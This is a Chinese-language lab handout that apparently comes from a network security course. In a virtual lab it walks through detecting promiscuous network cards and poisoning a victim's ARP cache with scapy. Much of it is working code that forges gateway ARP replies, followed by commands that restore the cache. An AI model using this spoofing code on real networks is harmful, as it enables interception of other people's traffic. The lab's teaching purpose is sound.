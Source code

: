 # 实验

## 网络拓扑

![](attach/media/arp-network.png)

如图所示网络中的节点基本信息如下：

* 攻击者主机
    * 08:00:27:bd:92:09 / eth1
    * 192.168.0.103
* 受害者主机
    * 08:00:27:aa:ff:3e / enp0s3 
    * 192.168.0.102
* 网关
    * 08:00:27:2a:4b:04 / eth1 
    * 192.168.0.1

## 实验准备

### 安装 scapy

在攻击者主机上提前安装好 [scapy](https://scapy.net/) 。

```bash
# 安装 python3
sudo apt update && sudo apt install python3 python3-pip

# ref: https://scapy.readthedocs.io/en/latest/installation.html#latest-release
pip3 install scapy[complete]
```

## 实验一：检测局域网中的异常终端

```bash
# 在受害者主机上检查网卡的「混杂模式」是否启用
ip link show enp0s3
# 2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

# 在攻击者主机上开启 scapy
scapy

# 在 scapy 的交互式终端输入以下代码回车执行
pkt = promiscping("192.168.0.102")

# 回到受害者主机上开启网卡的『混杂模式』
# 注意上述输出结果里应该没有出现 PROMISC 字符串
# 手动开启该网卡的「混杂模式」
sudo ip link set enp0s3 promisc on

# 此时会发现输出结果里多出来了 PROMISC 
ip link show enp0s3
# 2: enp0s3: <BROADCAST,MULTICAST,PROMISC,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP mode DEFAULT group default qlen 1000
#     link/ether 08:00:27:aa:ff:3e brd ff:ff:ff:ff:ff:ff

# 回到攻击者主机上的 scapy 交互式终端继续执行命令
# 观察两次命令的输出结果差异
pkt = promiscping("192.168.0.102")

# 在受害者主机上
# 手动关闭该网卡的「混杂模式」
sudo ip link set enp0s3 promisc off
```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存

以下代码在攻击者主机上的 `scapy` 交互式终端完成。

```python
# 获取当前局域网的网关 MAC 地址
# 构造一个 ARP 请求
arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="192.168.0.1")

# 查看构造好的 ARP 请求报文详情
arpbroadcast.show()

# ###[ Ethernet ]###
#   dst= ff:ff:ff:ff:ff:ff
#   src= 08:00:27:bd:92:09
#   type= ARP
# ###[ ARP ]###
#      hwtype= 0x1
#      ptype= IPv4
#      hwlen= None
#      plen= None
#      op= who-has
#      hwsrc= 08:00:27:bd:92:09
#      psrc= 192.168.0.103
#      hwdst= 00:00:00:00:00:00
#      pdst= 192.168.0.1

# 发送这个 ARP 广播请求
recved = srp(arpbroadcast, timeout=2)

# 网关 MAC 地址如下
gw_mac = recved[0][0][1].hwsrc

# 伪造网关的 ARP 响应包
# 准备发送给受害者主机 192.168.0.102
# ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
arpspoofed_l3=ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")

# 发送上述伪造的 ARP 响应数据包到受害者主机
# 注意：send() 发送的是 3 层报文，不能直接发送二层报文
send(arpspoofed_l3)

# 如果想使用 sendp() 函数，就需要手动构造二层报文头部
# 在 scapy 中可以通过 help(send) 和 help(sendp) 查看使用差异
arpspoofed_l2=Ehter()/ARP(op=2, psrc="192.168.0.1", pdst="192.168.0.102", hwdst="08:00:27:bd:92:09")
sendp(arpspoofed_l2)
# 注意，如果发送失败，需要指定 sendp() 的 iface 参数为发送报文的网卡名称
# 例如： sendp(arpspoofed_l2, iface="eth2")
```

此时在受害者主机上查看 ARP 缓存会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

```bash
ip neigh
# 192.168.0.103 dev enp0s3 lladdr 08:00:27:bd:92:09 STALE
# 192.168.0.1 dev enp0s3 lladdr 08:00:27:bd:92:09 REACHABLE
```

回到攻击者主机上的 scapy 交互式终端继续执行命令。

```python
# 恢复受害者主机的 ARP 缓存记录
## 伪装网关给受害者发送 ARP 响应
restorepkt1 = ARP(op=2, psrc="192.168.0.1", hwsrc="08:00:27:2a:4b:04", pdst="192.168.0.102", hwdst="08:00:27:aa:ff:3e")
send(restorepkt1, count=100, inter=0.2)
## （可选）伪装受害者给网关发送 ARP 响应
restorepkt2 = ARP(op=2, pdst="192.168.0.1", hwdst="08:00:27:2a:4b:04", psrc="192.168.0.102", hwsrc="08:00:27:aa:ff:3e")
send(restorepkt2, count=100, inter=0.2)
```

此时在受害者主机上准备“刷新”网关 ARP 记录。

```bash
## 在受害者主机上尝试 ping 网关
ping 192.168.0.1
## 静候几秒 ARP 缓存刷新成功，退出 ping
## 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
ip neigh
```

## 补充 FAQ

### [解决安装 python3-pip 时遇到的依赖冲突](https://superuser.com/questions/1555536/cannot-solve-the-the-following-packages-have-unmet-dependencies-issue)

```bash
apt install python3-pip
# Reading package lists... Done
# Building dependency tree
# Reading state information... Done
# Some packages could not be installed. This may mean that you have
# requested an impossible situation or if you are using the unstable
# distribution that some required packages have not yet been created
# or been moved out of Incoming.
# The following information may help to resolve the situation:
# 
# The following packages have unmet dependencies:
#  libc6-dev : Breaks: libgcc-9-dev (< 9.3.0-5~) but 9.2.1-21 is to be installed
# E: Error, pkgProblemResolver::Resolve generated breaks, this may be caused by held packages.
```

```bash
apt update && apt-get install gcc-9-base libgcc-9-dev libc6-dev
pip3 install scapy[complete] -i https://pypi.tuna.tsinghua.edu.cn/simple
```

### scapy 的交互式控制台在自动补全时触发太多 `DeprecationWarning` 的解决办法

进入 `scapy` 交互式控制后输入以下代码并执行。

```python
import warnings
warnings.filterwarnings('ignore')
```

### 开启 tcpdump 抓包默认开启「混杂」模式，但查看网卡状态无变化

根据 [tcpdump 帮助手册记录](https://www.tcpdump.org/manpages/tcpdump.1.html)：

> -p
> --no-promiscuous-mode
> Don't put the interface into promiscuous mode. Note that the interface might be in promiscuous mode for some other reason; hence, `-p' cannot be used as an abbreviation for `ether host {local-hw-addr} or ether broadcast'.

使用 `-p` 参数可以禁止使用「混杂」模式嗅探网卡。

## 实验三（可选）使用自动化工具完成 ARP 投毒劫持实验

## 实验四（可选）基于 scapy 编写 ARP 投毒劫持工具


